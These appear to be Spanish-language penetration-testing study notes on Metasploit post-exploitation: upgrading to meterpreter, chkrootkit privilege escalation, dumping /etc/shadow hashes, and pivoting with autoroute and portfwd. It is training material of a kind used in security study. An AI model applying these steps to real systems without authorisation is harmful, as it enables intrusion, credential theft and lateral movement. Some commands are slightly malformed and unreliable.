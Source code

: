 - Elevación de privilegios
>En  este caso upgrademos una sesión a meterpreter
```bash
session -u
```

> **VULN a ESCALADA DE PRIVS:** Si el target posee **chkrootkit 0.50 corriendo o menor**, si se guarda como ejecutable o hay una tarea programada ejecutándose

```bash
# En la shell 
ps -aux
chkrootkit -v
# en MSF
search chkrootkit
set chkrootkit PATHenlaVictim
```

- Dumping Hashes - Hashdump
>Trataremos de dumpear los hashes de **/etc/shadow**

```bash
search hashdump
```
### Pivoting

1. Si comprometemos, sólo podremos **escanear desde dentro de metasploit**
- Al comprometer runa máquina añadiremos Rutas
```bash
meterpreter> run autoroute -s DirRed/Mascara
# O esto
meterpreter> route add DirRed/Mascara 1
# renombramos las sesiones para que nos queden claras las redes
sessions -n Red1-Victim1 -i 1
```
- Scanner **TCP**
```bash

use scanner/portscan/tcp
set rhosts IPVictim2
set PORTS 0-65535
exploit
```
- Para **forwarding** 
> **-l:** Especificamos el puerto de la máquina atacante
    **-p:** Especificamos el port de la vítcima
     **-r:** Especifico la máquina Víctima
 
```bash
meterpreter>portfwd add -l 1234 -p 80 -r IPVictim2
```

- Escaneamos por el puerto dónde reenviamos, a ver que info de cada port
```bash
db_nmap -sS -sV -p 1234 localhost
```
